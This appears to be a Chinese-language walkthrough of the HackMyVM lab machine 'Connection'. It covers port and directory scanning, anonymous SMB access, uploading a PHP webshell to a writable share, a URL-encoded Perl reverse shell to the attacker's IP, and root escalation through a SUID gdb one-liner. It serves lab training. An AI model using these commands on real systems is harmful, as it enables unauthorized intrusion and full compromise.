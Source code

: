 ```yaml
---
{"dg-publish":true,"tags":["HMV","SUID提权","SMB"],"难度":"⭐️⭐️","作者":"whitecr0wz","permalink":"/24-渗透/HMV/4.Connection/","dgPassFrontmatter":true,"noteIcon":"2","created":"2024-11-22T19:13:18.845+08:00"}
---
```



## 1. 基本信息^toc

- [[24-渗透/HMV/4.Connection#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/4.Connection#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/4.Connection#3. SMB服务\|3. SMB服务]]
- [[24-渗透/HMV/4.Connection#4. webshell\|4. webshell]]
- [[24-渗透/HMV/4.Connection#5. SUID提权\|5. SUID提权]]

```
靶机链接：https://hackmyvm.eu/machines/machine.php?vm=Connection
```



作者：[ whitecr0wz](https://hackmyvm.eu/profile/?user=whitecr0wz)


```
难度：⭐️⭐️
```


```
知识点：SUID提权-gdb 、SMB服务
```
## 2. 信息收集

端口扫描

```Bash
Nmap scan report for 192.168.9.6
Host is up (0.00016s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:46:CA:97 (Oracle VirtualBox virtual NIC)
```
目录扫描

```Bash
gobuster dir -u http://192.168.9.6/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,zip,css,txt
```
没有啥东西

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.001.png)

## 3. SMB服务

扫描端口发现开启了139与445端口，这是SMB服务的特征 

利用enum4linux 工具对目标主机的smb服务进行扫描

```Bash
enum4linux -a -o 192.168.9.6
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.002.png)

可以发现share文件夹可以读取

smbclient连接上去

```Bash
┌──(root㉿kali)-[/home/kali]
└─# smbclient //192.168.9.6/share
Password for [WORKGROUP\kali]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep 23 09:48:39 2020
  ..                                  D        0  Wed Sep 23 09:48:39 2020
  html                                D        0  Wed Sep 23 10:20:00 2020

                7158264 blocks of size 1024. 5295652 blocks available
smb: \> allinfo html
altname: html
create\_time:    Wed Sep 23 10:20:00 AM 2020 CST
access\_time:    Sun Nov  3 01:51:49 PM 2024 CST
write\_time:     Wed Sep 23 10:20:00 AM 2020 CST
change\_time:    Wed Sep 23 10:20:00 AM 2020 CST
attributes: D (10)
```
发现里面有一个这个html目录，进去后发现就是网站的根目录

而且目录的属性是10 

即8+2 

8：这是一个目录

2：这个文件夹是隐藏的

```Bash
第 0 位（1）：表示 只读（Read-only）。
第 1 位（2）：表示 隐藏（Hidden）。
第 2 位（4）：表示 系统文件（System）。
第 3 位（8）：表示 目录（Directory）。
第 4 位（16）：表示 存档（Archive）。
```
这里可以说明html文件是可以写入的

直接传一个后门

```Bash
cd html
put 1.php
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.003.png)

## 4. webshell

发现传的eval马好像不太好弹shell
重新传了一个系统马

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.004.png)

弹shell

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.005.png)

```Bash
cmd=perl%20-e%20%27use%20Socket%3B%24i%3D%22192.168.9.3%22%3B%24p%3D1122%3Bsocket%28S%2CPF\_INET%2CSOCK\_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr\_in%28%24p%2Cinet\_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh%20-i%22%29%3B%7D%3B%27
```
## 5. SUID提权

```Bash
(remote) www-data@connection:/var/www/html$ find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/su
/usr/bin/passwd
/usr/bin/gdb
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/mount
/usr/bin/gpasswd
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.006.png)

```Bash
cd /usr/bin
./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.007.png)


